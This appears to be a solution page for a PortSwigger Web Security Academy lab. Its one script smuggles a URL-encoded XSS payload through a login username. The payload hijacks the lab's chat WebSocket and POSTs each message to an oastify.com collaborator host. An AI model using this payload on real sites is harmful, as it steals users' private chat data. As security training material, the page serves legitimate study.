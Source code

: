 <script>
    document.location = "https://cms-0aeb00f70330c49787095bd20001002f.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%30%35%30%30%33%33%30%33%34%36%34%61%30%35%38%31%39%31%30%32%34%66%30%30%36%39%30%30%32%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6b%6f%63%73%31%69%76%37%75%73%31%32%69%33%64%38%33%35%68%73%69%79%35%33%68%75%6e%6c%62%62%7a%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/d6ec9e39-3c93-41cf-85ce-1770c9da48f7">

<img width="1436" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/20edf134-2797-4ffc-993b-b5169901dd02">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/583e6437-e736-45d0-9743-153023927498">


